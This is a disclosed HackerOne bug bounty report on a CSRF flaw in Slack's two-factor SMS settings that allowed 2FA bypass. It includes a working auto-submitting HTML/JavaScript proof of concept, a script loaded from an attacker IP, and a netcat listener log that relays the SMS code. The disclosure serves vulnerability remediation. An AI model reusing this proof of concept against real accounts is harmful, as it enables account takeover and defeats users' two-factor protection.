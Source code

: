 # CSRF - Add optional two factor mobile number

## Report Details
- **Report ID**: 155774
- **URL**: https://hackerone.com/reports/155774
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-01T10:54:51.599Z
- **Disclosed**: 2016-08-17T21:39:53.991Z

## Reporter
- **Username**: nhavis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
Description
====================
Adding a mobile number for 2-factor authentication is vulnerable to CSRF, allowing an attacker to bypass 2-factor authentication. An attacker would be able to force the logged in user to add a new mobile number for 2-factor authentication. The attacker would then receive the SMS code and automatically make the victim verify it (in Javascript). When the attacker attempts to login to the victim's account, the verification code can then be sent to the attacker's mobile number. 

An attacker could be anyone trying to bypass 2-factor authentication, for example:
1. Anyone who already has the password to an account.
2. A company's IT administrator who has access to the user's e-mail and can reset the password.

I have provided a complete Proof of Concept without the **crumb** parameter, which I have manually verified myself.

Vulnerable URL:
====================
* /account/settings/2fa_sms

Root cause:
====================
Server does not validate the existence or value of the **crumb** parameter containing the CSRF token.

Sample vulnerable request:
====================
```
POST /account/settings/2fa_sms HTTP/1.1
Host: cs-sa.slack.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cookie: REDACTED=REDACTED
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

verify_two_factor=1&backup=&app=&primary_phone_number=%2B61+0████████&country_code=AU&phone_number=█████████
```

Attack flow:
====================
1. Attacker sends logged in slack user a link and slack user clicks it.
2. The link contains HTML and Javascript code that forces the victim in to adding a new 2-factor mobile number (**slackcsrf.html** provided below). The code does not contain the **crumb** parameter.
3. The code also connects back to the attacker's machine waiting for the attacker to enter the code so it can be used for verification (within seconds and potentially automatically).
4. The attacker receives the code via SMS and sends it back to the victim. (**Attacker web server** provided below)
5. The HTML code forces the victim to verify the new mobile number.
6. The mobile number has now been added to the victim's account for 2FA.
7. The attacker logs in and bypasses 2FA by requesting the code with the secondary mobile number.

slackcsrf.html:
---------------------
```
<html>
<body>
<IFRAME style="display:none" name="hidden-form"></iframe>
    <form action="https://cs-sa.slack.com/account/settings/2fa_sms" method="POST" target="hidden-form" name="pocframe">
      <input type="hidden" name="verify&#95;two&#95;factor" value="1" />
      <input type="hidden" name="backup" value="" />
      <input type="hidden" name="app" value="" />
      <input type="hidden" name="country&#95;code" value="AU" />
      <input type="hidden" name="phone&#95;number" value="█████████" />
    </form>
<script>document.pocframe.submit();</script>

<script src="http://192.168.1.82:8080/a"></script>
<IFRAME style="display:none" name="hidden-form2"></iframe>
    <form action="https://cs-sa.slack.com/account/settings/2fa_sms" method="POST" target="hidden-form2" name="pocframe2">
      <input type="hidden" name="verify&#95;two&#95;factor" value="1" />
      <input type="hidden" name="backup" value="1" />
      <input type="hidden" name="app" value="" />
      <input type="hidden" name="formatted&#95;phone&#95;number" value="&#43;61&#32;████████" />
      <input type="hidden" name="country&#95;code" value="AU" />
      <input type="hidden" id="scode" name="confirmation&#95;code" value="" />
    </form>
<script>
	document.getElementById("scode").value = scode;
	document.pocframe2.submit();
</script>
</body>
</html>
```

Attacker web server:
---------------------
```
root@foxtrotter:/var/www/html# nc -nlvp 8080
listening on [any] 8080 ...
connect to [192.168.1.82] from (UNKNOWN) [192.168.1.81] 56194
GET /a HTTP/1.1
Host: 192.168.1.82:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.82/slackcsrf.html
Connection: close
Cache-Control: max-age=0

HTTP/1.1 200 OK

scode=196206;
```


## Attachments
No attachments

